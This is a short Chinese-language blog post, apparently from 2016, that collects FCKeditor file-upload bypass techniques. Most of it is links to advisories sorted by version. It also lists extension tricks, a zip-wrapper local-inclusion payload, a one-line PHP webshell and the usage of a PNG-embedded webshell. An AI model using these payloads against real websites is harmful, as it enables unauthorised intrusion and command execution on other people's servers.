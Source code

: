 ```yaml
---
layout:     post
title:      fckeditor各版本绕过
date:       2016-08-12
summary:    fckeditor各版本绕过
categories: web
tags:
 - fckeditor
 - web
 - upload
---
```


### 0x00 fckeditor上传漏洞总结

    http://sec.chinabyte.com/206/13708206.shtml
    http://www.cnbraid.com/2015/07/09/fckeditor/
    http://www.it610.com/article/1842939.htm
    http://secureyes.net/nw/assets/File-Upload-Vulnerability-in-FCKEditor.pdf <=2.6.4

### 0x01 asp

    <=2.6.4
        http://secureyes.net/nw/assets/File-Upload-Vulnerability-in-FCKEditor.pdf
    2.6.6
        http://www.hack80.com/thread-320-1-1.html
        http://www.qhwins.com/ShowNews/?11-20109214030542523.html
    2.6.8
        http://www.freebuf.com/vuls/6408.html

### 0x02 php

    <=2.6.4
        http://secureyes.net/nw/assets/File-Upload-Vulnerability-in-FCKEditor.pdf

### 0x03 fckeditor经典尝试后缀

    1>将后缀改成.php.pjpg
    2>将后缀改成.html
    3>将后缀改成.lnk

### 0x04 其它上传技巧

    1>上传时,延迟一下再上传,有时能bypass admin,用到firefox tamper插件
        https://www.youtube.com/watch?v=ndeYnMoFPx8
        管理员登录绕过
            https://www.youtube.com/watch?v=UO-vzWFctTA
            https://www.youtube.com/watch?v=a5fm629s8Ao
                firefox noredirect插件
    2>双文件上传
    3>上传以图片后缀名为后缀的压缩文件,文件实际是一个webshell.php文件的压缩文件(zip),利用lfi漏洞并将lfi要包含
      的文件的参数赋值为:
        zip://archive.zip#webshell.php
        或
        zip://archive.zip#webshell.php&param1=system&param2=ls   ===>这里对应webshell.php为:
            <?php $_GET['param1']($_GET['param2']);?>
      这里适用的情况为:
        a>可上传任意内容文件(通过修改Content-Type等达到目的),但文件会被重命令为以png为后缀文件
        b>找到了lfi漏洞,但是lfi漏洞不能包函.|./|..|..\|...等情况
      更多细节:
        https://www.securusglobal.com/community/2016/08/19/abusing-php-wrappers/
    4>上传图片被resize等修改时,绕过方法: 
        https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
        用法:x.php?0=system post data:1=whoami,上面链接中的payload见如下phppayload

<a href="https://www.idontplaydarts.com/images/phppng.png">phppayload</a>

